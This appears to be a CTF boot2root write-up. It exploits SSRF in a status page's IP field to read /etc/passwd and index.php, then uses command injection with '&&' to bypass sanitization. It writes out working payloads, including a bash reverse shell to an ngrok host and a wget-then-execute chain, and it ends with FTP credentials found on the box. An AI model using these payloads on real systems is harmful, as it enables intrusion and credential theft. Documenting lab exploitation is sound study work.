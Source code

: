 
2024-11-05 20:23

Source: #Boot2root 

Nmap scan the IP
Directory Bursting on Website
### SSRF on /status/index.php

in the captured burp suite request we have an IP field 
on changing the ip field we get `etc/passwd` in return 
```
ip=file:///etc/passwd
```
### RCE via SSRF

change the IP field to the following
use the code below to see the source code a website which has a File inclusion vulnerability.
```
ip=file:///proc/self/cwd/index.php
```

this will get the index.php, now decode this from html encoding
There is some sanitization to avoid RCE, but by using `&&` , we can still execute commands and bypass the sanitization. payload (I had urlencoded the &): 
```
ip=file:///etc/passwd&&id&&
```

#### Gaining foothold

I used ngrok to gain a foothold on the punisher user, and for the rest of the lateral movement, I used the CTF server itself. 
I used ngrok to expose my local port to the internet so that I could upload a shell code file onto the server

```sh
cat shell.sh
bash -c 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/16004 0>&1'
```

Uploaded this file on server using wget at /tmp/shell.sh
```sh
# File uploaded on the server 
ip=file:///etc/passwd&&wget http://0.tcp.in.ngrok.io:16004/
shell.sh -O /tmp/shell.sh&&

# Executed the /tmp/shell.sh file 
ip=file:///etc/passwd&&bash /tmp/shell.sh&&
```
start a listener on port 80 and get the shell before executing shell.sh

after getting the shell we see in `/opt/ftp_cred.txt`
there are FTP credentials for user `punisher` 


### References
 ISH CTF - Shivam